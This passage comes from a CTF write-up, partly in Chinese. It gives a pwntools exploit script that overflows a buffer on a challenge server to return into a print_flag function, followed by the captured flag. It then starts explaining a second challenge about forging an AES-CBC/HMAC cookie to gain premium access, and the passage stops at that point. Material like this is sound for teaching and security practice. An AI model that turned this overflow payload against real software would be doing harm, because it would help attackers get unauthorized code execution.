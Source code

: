 exploit:
```python=
from pwn import *
binary = "./pwn"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("chall.rumble.host", 5415)
#conn = process(binary)
#conn = gdb.debug(binary, "b *0x401331")

print_flag = 0x401343
ret = 0x40101a

conn.sendlineafter(b"mix: ", b"-1")
conn.recvuntil(b"you:", drop=True)
conn.sendline(b"A"*(112+8)+p64(ret)+p64(print_flag))
conn.interactive()
```

![](https://i.imgur.com/77swJs5.png)

CSR{1mpr3s1v3_basic_overflow_3cde7f51eefc00a_PWn_s0lved}

## (X) FLAGPEDIA
![](https://i.imgur.com/NUxNJgf.png)

由於目前題目已被下架，無法存取原網站

以下是別人的解法

這題的目標是要變成 premium 身分，並進入 premium 才能閱讀的內容，即 `/premium-info/CSR` 路徑
![](https://i.imgur.com/d4SsVFa.png)

可以看到使用者身分是在 cookie 中，並透過 deserialize_user 函式進行解析

預設的身分為 `pleb`，原始 cookie 解析後內容為 `{"user": "stduser", "role": "pleb"}`
![](https://i.imgur.com/SsEmzh0.png)

序列化及反序列化函式如下:
```python=
def serialize_user(user):
    data = urlencode(user).encode()
    aes = AES.new(INSTANCE_KEY, AES.MODE_CBC)
    ct = aes.encrypt(pad(data, 16))
    # guarantee ciphertext integrity
    mac = HMAC.new(INSTANCE_KEY, ct).digest()
    return (aes.iv + ct + mac).hex()


def deserialize_user(ciphertext):
    ciphertext = bytes.fromhex(ciphertext)
    iv, ct, mac = ciphertext[:16], ciphertext[16:-16], ciphertext[-16:]

    # Check ciphertext integrity
    if not HMAC.new(INSTANCE_KEY, ct).digest() == mac:
        raise ValueError("Ciphertext was manipulated.")

    aes = AES.new(INSTANCE_KEY, AES.MODE_CBC, iv=iv)
    plaintext = unpad(aes.decrypt(ct), 16)
    user_obj_raw = parse_qs(plaintext.decode())
    user_obj = {k: v[0] for k, v in user_obj_raw.items()}

```